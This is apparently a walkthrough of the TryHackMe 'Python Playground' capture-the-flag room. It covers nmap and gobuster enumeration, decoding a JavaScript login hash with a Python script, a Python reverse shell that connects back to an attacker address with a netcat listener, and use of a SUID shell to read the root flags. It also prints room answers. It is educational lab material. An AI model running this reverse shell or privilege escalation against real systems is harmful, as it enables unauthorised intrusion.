 
# 🐍 Python Playground - TryHackMe

> Be creative!  
> 🔗 [Python Playground Room](https://tryhackme.com/room/pythonplayground)

---

## 🧠 Topics

- ✅ Network Enumeration (Nmap)
- ✅ Web Enumeration (Gobuster)
- ✅ JavaScript Login Bypass Logic 
- ✅ Python Scripting (Decoder)  
- ✅ Misconfigured Binaries

---

## 🗂️ Appendix Archive

> **Password:** `1 kn0w 1 5h0uldn'7!`

---

## 🎯 Task 1: Hack it!

> *Jump in and grab those flags! All in the usual places: `/home/someuser`, `/root`*

<details>
<summary>🔍 Nmap Results</summary>

```bash
sudo nmap -A -sS -sC -sV -O 10.10.192.182
```

```text
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-16 20:20 IST
Nmap scan report for 10.10.192.182
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f4:af:2f:f0:42:8a:b5:66:61:3e:73:d8:0d:2e:1c:7f (RSA)
|   256 36:f0:f3:aa:6b:e3:b9:21:c8:88:bd:8d:1c:aa:e2:cd (ECDSA)
|_  256 54:7e:3f:a9:17:da:63:f2:a2:ee:5c:60:7d:29:12:55 (ED25519)
80/tcp open  http    Node.js Express framework
|_http-title: Python Playground!
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   239.31 ms 10.21.0.1
2   239.53 ms 10.10.192.182

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.97 seconds
```

🔗 [http://10.10.192.182](http://10.10.192.182)  
🔗 [http://10.10.192.182/login.html](http://10.10.192.182/login.html)  
🔗 [http://10.10.192.182/signup.html](http://10.10.192.182/signup.html)

</details>

---

<details>
<summary>📁 Gobuster Enumeration</summary>

```bash
gobuster dir -u http://10.10.192.182 -w /usr/share/dirb/wordlists/common.txt -x html
```

**Results:**
```
┌──(zenrage-a1105㉿ZenRage-A1105)-[~/thm]
└─$ gobuster dir -u http://10.10.192.182 -w /usr/share/dirb/wordlists/common.txt -x html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.192.182
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin.html           (Status: 200) [Size: 3134]
/index.html           (Status: 200) [Size: 941]
/index.html           (Status: 200) [Size: 941]
/login.html           (Status: 200) [Size: 549]
/signup.html          (Status: 200) [Size: 549]
Progress: 9228 / 9230 (99.98%)
===============================================================
Finished
===============================================================
 ```

🔗 [http://10.10.192.182/admin.html](http://10.10.192.182/admin.html)  
🔗 [View Source](view-source:http://10.10.192.182/admin.html)

</details>

---

<details>
<summary>🔐 JavaScript Login Bypass Logic</summary>

```js
const hash = int_array_to_text(
  string_to_int_array(
    int_array_to_text(string_to_int_array(password))
  )
);

if (hash === "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu")
  window.location = "super-secret-admin-testing-panel.html";
```

🔗 [http://10.10.251.33/super-secret-admin-testing-panel.html](http://10.10.251.33/super-secret-admin-testing-panel.html)
</details>

---

<details>
<summary>🧮 Python Decoder Logic</summary>

```python
def text_to_unicode(string):
    uni=[]
    for char in string:
         a=ord(char)
         a -= 97
         uni.append(str(a))
    return uni

def unicode_to_text(string):
    out=""
    for char in range(0,len(string),2):
         a = int(string[char])
         b = int(string[char +1])
         temp = a * 26
         temp += b
         out += chr(temp)
    return out

if __name__ == "__main__":
     hash="dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu"
     stri1 = text_to_unicode(hash)
     stri2 = unicode_to_text(stri1)
     stri3 = text_to_unicode(stri2)
     password = unicode_to_text(stri3)
     print(password)

```

✅ Password: `spaghetti1245`

</details>

---

<details>
<summary>💻 Reverse Shell</summary>

```python
import socket, os, subprocess

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.xx.xxx.xxx",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

```bash
# Listener
nc -lnvp 9001
```

</details>

---

<details>
<summary>📜 Flag Dump</summary>

### 🏁 Flag 1 (root):
```bash
cat /root/flag1.txt
```
`THM{flag1}`

---

### 🏁 Flag 2 (connor):
```bash
cat /home/connor/flag2.txt
```
`THM{flag2}`

---

### 🏁 Flag 3 (via SUID shell):
```bash
/var/log/sh -p
cd /root
cat flag3.txt
```
`THM{flag3}`

</details>
